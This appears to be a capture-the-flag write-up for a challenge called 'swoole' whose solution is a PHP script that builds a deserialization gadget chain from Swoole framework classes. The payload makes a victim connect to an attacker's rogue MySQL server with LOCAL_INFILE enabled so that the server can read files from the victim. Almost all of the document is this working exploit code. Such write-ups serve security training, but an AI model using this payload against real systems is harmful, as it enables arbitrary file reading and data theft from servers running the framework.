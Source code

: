 # swoole

make unserialize great again!

## License

AGPL License

## Solution

Run the following code in Swoole to generate the payload:
```php
<?php
function changeProperty ($object, $property, $value)
{
    $a = new ReflectionClass($object);
    $b = $a->getProperty($property);
    $b->setAccessible(true);
    $b->setValue($object, $value);
}

// Part A

$c = new \Swoole\Database\PDOConfig();
$c->withHost('ROUGE_MYSQL_SERVER');    // your rouge-mysql-server host & port
$c->withPort(3306);
$c->withOptions([
    \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
    \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
]);

$a = new \Swoole\ConnectionPool(function () { }, 0, '\\Swoole\\Database\\PDOPool');
changeProperty($a, 'size', 100);
changeProperty($a, 'constructor', $c);
changeProperty($a, 'num', 0);
changeProperty($a, 'pool', new \SplDoublyLinkedList());

// Part C

$d = unserialize(base64_decode('TzoyNDoiU3dvb2xlXERhdGFiYXNlXFBET1Byb3h5Ijo0OntzOjExOiIAKgBfX29iamVjdCI7TjtzOjIyOiIAKgBzZXRBdHRyaWJ1dGVDb250ZXh0IjtOO3M6MTQ6IgAqAGNvbnN0cnVjdG9yIjtOO3M6ODoiACoAcm91bmQiO2k6MDt9'));
// This's Swoole\Database\MysqliProxy
changeProperty($d, 'constructor', [$a, 'get']);

$curl = new \Swoole\Curl\Handler('http://www.baidu.com');
$curl->setOpt(CURLOPT_HEADERFUNCTION, [$d, 'reconnect']);
$curl->setOpt(CURLOPT_READFUNCTION, [$d, 'get']);

$ret = new \Swoole\ObjectProxy(new stdClass);
changeProperty($ret, '__object', [$curl, 'exec']);


$s = serialize($ret);
$s = preg_replace_callback('/s:(\d+):"\x00(.*?)\x00/', function ($a) {
    return 's:' . ((int)$a[1] - strlen($a[2]) - 2) . ':"';
}, $s);

echo $s;
echo "\n";

```
